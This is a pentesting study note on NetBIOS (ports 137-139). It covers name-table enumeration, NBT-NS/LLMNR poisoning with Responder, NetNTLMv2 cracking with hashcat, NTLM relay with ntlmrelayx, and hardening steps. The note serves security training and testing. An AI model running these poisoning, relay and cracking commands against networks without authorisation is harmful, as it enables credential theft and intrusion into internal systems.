

# 27 - NetBIOS (Ports 137-139) Pentesting

## 1. Executive Summary

NetBIOS is the legacy Windows naming/session layer that predates DNS-based AD networking but still lingers everywhere. It spans three ports: **UDP 137** (Name Service / NBNS), **UDP 138** (Datagram Service), and **TCP 139** (Session Service, carries SMB over NetBIOS). For a pentester NetBIOS offers two things: **enumeration** (hostnames, logged-in users, MAC addresses, domain/workgroup) and a powerful internal attack — **NBT-NS / LLMNR poisoning**, where you answer broadcast name lookups to capture NetNTLM hashes. It is a staple of internal network compromise.

## 2. Protocol Overview & Architecture

When a Windows host can't resolve a name via DNS, it falls back to broadcasting an **NBT-NS** (and LLMNR/mDNS) query asking "who is FILESRV?". Any host on the segment can answer. An attacker answers "me!", the victim then tries to authenticate, and the attacker captures the NetNTLM challenge/response for offline cracking or relay. TCP 139 carries SMB sessions; UDP 137 serves name queries and the `nbstat` name table.

## 3. Enumeration & Footprinting

```bash
# Name table: hostname, domain, logged-in user, MAC
nmblookup -A <IP>
nbtscan <IP>/24
sudo nmap -sU -sV -T4 --script nbstat.nse -p137 -Pn -n <IP>
```
The `<20>` suffix indicates a file-server service; `<00>` workstation; a unique `<03>` often reveals the logged-in username.

## 4. Exploitation Deep Dive

### 4.1 Enumeration Yield
Name-table output maps the segment: hostnames → IPs, workgroup/domain membership, MAC addresses (vendor fingerprinting), and active usernames for spraying.

### 4.2 NBT-NS / LLMNR Poisoning (the big one)
```bash
# Answer broadcast name requests, capture NetNTLM hashes
responder -I eth0 -wv
# Hashes land in Responder logs → crack:
hashcat -m 5600 netntlmv2.hash rockyou.txt
```

### 4.3 Relay Instead of Crack
If SMB signing is off on other hosts, relay the captured auth straight to them:
```bash
impacket-ntlmrelayx -tf targets.txt -smb2support
```
(Disable Responder's SMB/HTTP servers when relaying.)

### 4.4 SMB over 139
TCP 139 exposes the same SMB attack surface as 445 — see note 06.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- Cracked NetNTLMv2 → valid domain creds → broad access.
- Relayed auth → command execution on signing-disabled hosts.
- Name table data accelerates target selection.

## 7. Defense & Hardening
1. **Disable NetBIOS over TCP/IP and LLMNR/mDNS** via GPO — removes the poisoning surface.
2. Enforce SMB signing (blocks relay); use Kerberos, not NTLM.
3. Firewall 137-139; segment the network.
4. Strong passwords so captured hashes resist cracking.

## 8. Chaining Opportunities
- Responder capture → relay → **[[06 - SMB (Ports 139-445) Pentesting]]** / **[[26 - MSRPC (Port 135) Pentesting]]**.
- Cracked creds → **[[09 - Kerberos (Port 88) Pentesting]]**.

## 9. Related Notes
- [[06 - SMB (Ports 139-445) Pentesting]]
- [[26 - MSRPC (Port 135) Pentesting]]
- [[11 - NetBIOS — Enumeration, NBNS Poisoning]]

## 10. Tools
`nbtscan`, `nmblookup`, `nmap` nbstat, `responder`, `impacket-ntlmrelayx`, `hashcat`.
